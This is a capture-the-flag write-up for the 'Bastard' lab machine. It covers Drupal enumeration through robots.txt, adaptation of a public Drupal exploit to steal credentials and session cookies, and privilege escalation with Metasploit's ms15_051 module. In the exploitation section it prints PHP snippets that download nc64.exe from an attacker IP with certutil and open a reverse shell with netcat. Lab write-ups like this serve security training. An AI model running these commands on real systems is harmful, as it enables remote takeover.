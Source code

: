 # Bastard
![image](https://github.com/partyh4t/Write-ups/assets/114421293/3061d92f-1f6d-4189-a9e4-e510b14e004c)


## 0) Machine Overview
- We're first met with a web application running `Drupal` that leaks a useful directory through the `robots.txt` file.
- The file contains a version# for the current Drupal installation that is running on the web server.
- We're then able to leverage that version number to exploit a CVE to gain credentials and eventually RCE.
- Finally, once the machine was compromised, we exploited `ms15_051` to gain Administrative Privileges.

1. [Scans](#1-scans)
2. [Web Enumeration](#2-web-enumeration)
3. [Exploitation](#3-exploitation)
4. [Privilege Escalation](#4-privilege-escalation)

## 1) Scans
![image](https://github.com/partyh4t/Write-ups/assets/114421293/900fd3f7-bc43-414b-a7d1-1aa87ec1381f)

## 2) Web Enumeration
Heading to the webpage, we're met with Drupal
![image](https://github.com/partyh4t/Write-ups/assets/114421293/df3dfa47-769b-401c-9c4e-9651018415bd)


With some testing, and checking the robots.txt, we notice:

![image](https://github.com/partyh4t/Write-ups/assets/114421293/22d60b3d-fb7e-4e66-bee5-a207dfdc103f)


As we can see, we now know the exact version number of the CMS being used.
![image](https://github.com/partyh4t/Write-ups/assets/114421293/cbecd508-9201-4196-9d28-40c0b13ae57f)

## 3) Exploitation
With some research "Drupal 7.54 exploit" we instantly are met with:
![image](https://github.com/partyh4t/Write-ups/assets/114421293/40c9887d-fbc0-418f-8cd6-7f422b59ff2f)


We used the exploit, but we had to alter some of the code:
Originally I only changed the url to the proper IP, and as we can see, the endpoint_path is set to /rest-endpoint, but the exploit doesn't work.
![image](https://github.com/partyh4t/Write-ups/assets/114421293/acb9b252-ca1b-40f5-9e2c-87d60107bcc0)


So if we try to access that endpoint ourselves, it turns out it doesnt exist for us.

![image](https://github.com/partyh4t/Write-ups/assets/114421293/735785d0-003e-4a3d-8f1c-9c81b50a0bbc)


What if we try just /rest? Because if we search up that error with drupal, we can see some stackoverflow questions that show that /rest is also a possible endpoint.

With that fixed:

![image](https://github.com/partyh4t/Write-ups/assets/114421293/39aa305d-3e55-44c1-9176-a1fbad85525b)


Now, the exploit is creating a .php file within the server, and the exploit code is retrieving credentials:
![image](https://github.com/partyh4t/Write-ups/assets/114421293/0103ff84-1d65-4b26-aa10-de9d330cb625)


Also the session information:

![image](https://github.com/partyh4t/Write-ups/assets/114421293/38e59117-7a55-4f2c-bdb2-fbd88c95cf6a)


So we can either log into the admin dashboard and investigate, or we can also change the data to maybe give us a shell of some sort, it'd have to be in php though.

Lets first try to add some of those cookies into our browser:
![image](https://github.com/partyh4t/Write-ups/assets/114421293/6ea28526-0a5b-4f0a-bfcf-23d67958be05)


Here, we put the session names value into the name section, and the id into the value:
![image](https://github.com/partyh4t/Write-ups/assets/114421293/a2f6a602-467e-4020-b6ad-035a5220eb99)


I was having trouble trying to get a rev shell with the exploit code, so we'll have to do it manually.

Going to be following this:
[https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/drupal#rce](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/drupal#rce)

Note: this will only work for versions of Drupal before V8.


So, after a lot of research, and some PHP errors, I was able to use this code on the new page within the "Add-content" section:
```
<?php
$command = "certutil.exe -urlcache -f http://10.10.14.15:8080/nc64.exe nc64.exe";
$output = shell_exec($command);
echo $output;
?>
```

And then to execute it: (Turns out [shell_exec](https://stackoverflow.com/questions/11209509/using-php-to-execute-cmd-commands) is exactly what I needed in this case)
```
<?php
shell_exec('nc64.exe -e cmd 10.10.14.15 1234')
?>
```

## 4) Privilege Escalation
Now that we had access to the machine, i uploaded a meterpreter executable so i can use metasploit.

Once that was done, i ran local_exploit_suggester on the target, and was given multiple exploits that the target seemed to be vulnerable to.

I tried multiple, however the one that worked was [ms15_051](https://learn.microsoft.com/en-us/security-updates/securitybulletins/2015/ms15-051). Using the metasploit module for it, i just had to make sure the payload was set to windows/x64/meterpreter/reverse_tcp, stressing on the x64 as without it, it wouldnt work. Also made sure the target was set to Windows x64, and the original meterpreter session was migrated to an x64 process.

Pwned.

---
